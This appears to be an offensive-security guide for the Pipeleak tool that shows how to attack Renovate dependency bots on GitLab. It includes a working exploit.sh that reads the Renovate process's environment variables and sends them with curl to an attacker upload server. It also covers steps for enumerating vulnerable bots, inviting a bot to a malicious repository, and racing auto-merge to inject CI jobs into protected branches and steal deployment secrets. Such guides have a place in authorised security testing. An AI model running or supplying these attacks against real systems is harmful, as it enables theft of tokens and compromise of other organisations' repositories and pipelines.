

# Attacking Renovate Bots: A Practical Guide

This guide shows how to use Pipeleak to discover and exploit common misconfigurations in Renovate bot setups. For background and technical details, see the full blog post: https://blog.compass-security.com/2025/05/renovate-keeping-your-updates-secure/

Two main points are important to understand:

1. Code Execution by renovated repositories
> Every project renovated by the same bot must be considered equally trusted and exposed to the same attack level. If one project is compromised, all others processed by that bot can be affected. Code execution by the renovated repository in the bot context is assumed in Renovates threat model.

2. GitLab invite auto acceptance:
> GitLab project invites are auto accepted. You can invite any bot directly to your repository. If it is then renovated by the invited bot you can compromise the bot user.

## 1. Enumerate Renovate Bot Usage

Use the `enum` command to scan your GitLab instance for Renovate bot jobs and config files. This is useful for:

- Identify Renovate configurations
- Finding projects with vulnerable Renovate bot configurations
- Collecting config files for further analysis

We enumerate  Renovate configs found on GitLab.com. One project has been found, that enables Renovate's autodiscovery of projects and does NOT set any autodiscovery filters.

```bash
pipeleak gl renovate enum -g https://gitlab.com -t glpat-[redacted] --dump
2025-09-30T07:11:06Z INF Fetching projects
2025-09-30T07:11:12Z WRN Identified Renovate (bot) configuration autodiscoveryFilterType= autodiscoveryFilterValue= hasAutodiscovery=true hasAutodiscoveryFilters=false hasConfigFile=true pipelines=enabled selfHostedConfigFile=true url=https://gitlab.com/test-group/renovate-bot
2025-09-30T07:11:16Z INF Fetched all projects
2025-09-30T07:11:16Z INF Done, Bye Bye 🏳️‍🌈🔥
```

This means this bot is vulnerable to the autodiscovery exploit.

---

## 2. Exploit Autodiscovery with a Malicious Project

The Renovate bot from the example above is configured to autodiscover new projects and does not apply any or only weak bypassable filters. You can create a repository with a malicious script that gets executed by the bot. 

The following command creates a repository, that includes an exploit script called `exploit.sh`. Whenever a Renovate bot picks up this repo, the script will be executed.
```bash
pipeleak gl renovate autodiscovery -g https://gitlab.com -t glpat-[redacted] 
2025-09-30T07:19:33Z INF Created project name=devfe-pipeleak-renovate-autodiscovery-poc url=https://gitlab.com/myuser/devfe-pipeleak-renovate-autodiscovery-poc
2025-09-30T07:19:35Z INF Created file file=renovate.json
2025-09-30T07:19:35Z INF Created file file=package.json
2025-09-30T07:19:36Z INF Created file file=package-lock.json
2025-09-30T07:19:37Z INF Created file file=exploit.sh
2025-09-30T07:19:37Z INF No username provided, you must invite the victim Renovate Bot user manually to the created project
2025-09-30T07:19:37Z INF Make sure to update the exploit.sh script with the actual exploit code
2025-09-30T07:19:37Z INF Then wait until the created project is renovated by the invited by the Renovate Bot user
```

First we need to setup the `exploit.sh` script according to our needs. Our goal is to read the Renovates process environment variables and exfiltrate them to our attacker server.

```bash
#!/bin/bash
UPLOAD_URL="https://[attacker-ip]:8080/upload"

if [ -z "$UPLOAD_URL" ]; then
    echo "Upload URL is empty"
    exit 1
fi

# 1. Get renovate PID
RPID=$(ps -eo pid,cmd | grep -i 'renovate' | awk '{print $1}' | head -n 1)
echo "[+] Renovate PID: $RPID"

# 2. Upload /proc/<PID>/environ to GoShs server
ENV_FILE="renovate_environ_${RPID}.txt"
if [ -r "/proc/$RPID/environ" ]; then
    tr '\0' '\n' < /proc/$RPID/environ > "$ENV_FILE"
    echo "[+] Uploading $ENV_FILE to GoShs server..."
    curl -k -sSf -X POST -F "files=@$ENV_FILE" "$UPLOAD_URL"
else
    echo "[-] Cannot read /proc/$RPID/environ"
fi
```

On our attacker server we start a [GoShs](https://github.com/patrickhener/goshs) server to accept the environment files from the Renovate process.
```bash
./goshs --ssl --self-signed --upload-only -no-clipboard --no-delete --port 8000
INFO   [2025-09-30 09:31:29] You are running the newest version (v1.1.1) of goshs
```

In the next step we have to identify the bot user and invite it to our repository. By looking at at the Renovate bot configuration we can identify the renovated repos, and check the username of the bot user in the merge requests created by that bot. 

Such a MR can look like this. Below the title we see the bots username `renovate_runner`.



Now we will invite that user to our repository with `developer` acess. Now its time to wait, until the bot is triggered next.
After it has run, we can can the environ file on our GoShs server.

In that file we want to extract all sensitive environment variables and use the for lateral movement.
Most intersting is probably the `RENOVATE_TOKEN` as it might contain GitLab PAT. You can then enumerate the access of that PAT using Pipeleaks features.


## 3. Privilege Escalation via Renovate Bot Branches

In this scenario we assume, that we already gained access to a repositry, but only with developer access. We want to gain access to the configured CI/CD variables, that are configured for deployments. However we cannot directly access these, as they are only provided to pipeline runs on protected branches like the main `branch`.

Luckily the project is using Renovate and the bot is configured to auto merge after the tests pass in the MR created by the bot. Thus the bot has maintainer access to the repository.

Our goal is to abuse the Renovate bot access level to merge a malicious `gitlab-ci.yml` file into the main branch, effectively bypassing a review by the other project maintainers. On the main branch we can then steal the exposed environment variables used for the deployments.

Using Pipeleak we can monitor our repository for new renovate branches. When a new one is detected, Pipeleak tries to add a new job into the `gitlab-ci.yml`. As this needs to exploit a race condition (add new changes to Renovate branch, before the bot activates auto-merge) this might take a few attempts.

```bash
pipeleak gl renovate privesc -g https://gitlab.com -t glpat-[redacted] --repoName company1/a-software-project --renovateBranchesRegex 'renovate/.*' -v
2025-09-30T07:56:57Z DBG Verbose log output enabled
2025-09-30T07:56:57Z INF Ensure the Renovate bot does have a greater access level than you, otherwise this will not work, and is able to auto merge into the protected main branch
2025-09-30T07:56:58Z DBG Testing push access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z DBG Testing merge access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z INF Default branch is protected and you do not have direct access, proceeding with exploit branch=main currentAccessLevel=30
2025-09-30T07:56:58Z INF Monitoring for new Renovate Bot branches to exploit
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:56:58Z DBG Storing original branches for comparison
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z INF Checking if new branch matches Renovate Bot regex branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Identified Renovate Bot branch, starting exploit process branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Fetching .gitlab-ci.yml file from Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Modifying .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:31Z INF Updated remote .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1 fileinfo={"branch":"renovate/update-lib1","file_path":".gitlab-ci.yml"}
2025-09-30T07:57:31Z INF CI/CD configuration updated, check yourself if we won the race! branch=renovate/update-lib1
2025-09-30T07:57:31Z INF If Renovate automatically merges the branch, you have successfully exploited the privilege escalation vulnerability and injected a job into the CI/CD pipeline that runs on the default branch
```
Manually go check if the MR has been set to auto merge, and see if your changes land in the main branch. If they do you successfuly injected a CI/CD into the protected branch. From there leak all the credentials and move forward.
